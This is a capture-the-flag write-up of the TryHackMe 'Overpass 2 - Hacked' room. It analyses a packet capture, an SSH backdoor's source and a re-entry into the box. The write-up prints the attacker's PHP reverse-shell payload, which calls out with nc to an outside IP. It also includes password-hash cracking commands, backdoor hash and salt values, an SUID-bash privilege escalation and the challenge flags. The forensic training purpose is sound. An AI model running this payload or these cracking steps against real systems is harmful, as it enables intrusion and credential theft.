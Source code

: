 ```yaml
---
title: Overpass 2 - Hacked
layout: post
author: Bit Criminals Team
date: 2021-06-28 21:55:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/overpass2hacked
---
```


This room was not like the usual ones. We had to first analyze a .pcapng file. 

#Forensics - Analyse the PCAP

**What was the URL of the page they used to upload a reverse shell?**

![](/images/Mars/overpass1.png)

On close observation, you will find that the page is ```/development/```

**What payload did the attacker use to gain access?**

![](/images/Mars/overpass2.png)

When we followed the TCP stream of the packet with /development/uploads.php and found the above. Hence, the payload the attacker used was 
```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

**What password did the attacker use to privesc?**

![](/images/Mars/overpass3.png)

On following the TCP streams available we found this goldmine of information. Clearly the password the attacker used was the password of James.
```whenevernoteartinstant```

**How did the attacker establish persistence?**

![](/images/Mars/overpass4.png)

On going further through the above TCP stream, we understood that the attacker planted an ssh backdoor to establish persistence. Clearly, he did so by cloning the following github repository.
```https://github.com/NinjaJc01/ssh-backdoor```

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

![](/images/Mars/overpass5.png)

Futher down in the same TCP stream, the attacker viewed the "/etc/shadow" file. Here we found the password hashes of five users.
We copied the password hashes into another file and used John the Ripper to crack the hashes. We used the fasttrack wordlist as per the requirment. The command used was
```john --wordlist=/usr/share/wordlists/fasttrack.txt hash1```

![](/images/Mars/overpass6.png)

Hence ```4``` hashes were cracked.

#Research - Analyse the code

The attacker created a backdoor using the code from ***https://github.com/NinjaJc01/ssh-backdoor***. So we cloned this repository to analyze the code.

**What's the default hash for the backdoor?**

In the main.go file, we found the default hash for the back door. Also note the port 2222 which the attacker used.

![](/images/Mars/overpass7.png)

```bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3```

**What's the hardcoded salt for the backdoor?**

Futher down in the same file we found the hardcoded salt for the backdoor.

![](/images/Mars/overpass8.png)

```1c362db832f3f864c8c2fe05f2002a05```

**What was the hash that the attacker used? - go back to the PCAP for this!**

![](/images/Mars/overpass5.png)

```6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed```

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

We created a file with the above hash and the hardcoded salt for the backdoor in the format hash$salt ahd used John the Ripper.
```john -form=dynamic='sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash2```
The password was ```november16```


#Attack - Get back in!

**The attacker defaced the website. What message did they leave as a heading?**

On opening the website "http://<box-ip>, we foind this.

![](/images/Mars/overpass10.png)

```H4ck3d by CooctusClan```

**What's the user flag?**

We had to begin with nmap scan, but this time it was unusually long. But we know that the attacker used port 2222. So we logged in at port 2222 uing ssh
```ssh -p 2222 james@<10.10.114.96>```

Finally result of the nmap scan came!
![](/images/Mars/overpass9.png)

We found the user falg in user.txt in the home directory of james.

![](/images/Mars/overpass11.png)

```thm{d119b4fa8c497ddb0525f7ad200e6567}```

**What's the root flag?**

Now comes the best part, privelage escelation.
We tried "sudo -l" as usual but this time the old password was incorrect. This meant the password was changed. The attacker is a smart guy!
Searching for a way to break in, we looked at all the files in the home directory. We found an unusual executable file owned by root.

![](/images/Mars/overpass12.png)

On execution using ```./.suid_bash``` it gave us a shell, but the user was still james. So this time we executed using ```./.suid_bash -p``` We became the root!!!

![](/images/Mars/overpass13.png)

```thm{d53b2684f169360bb9606c333873144d}```










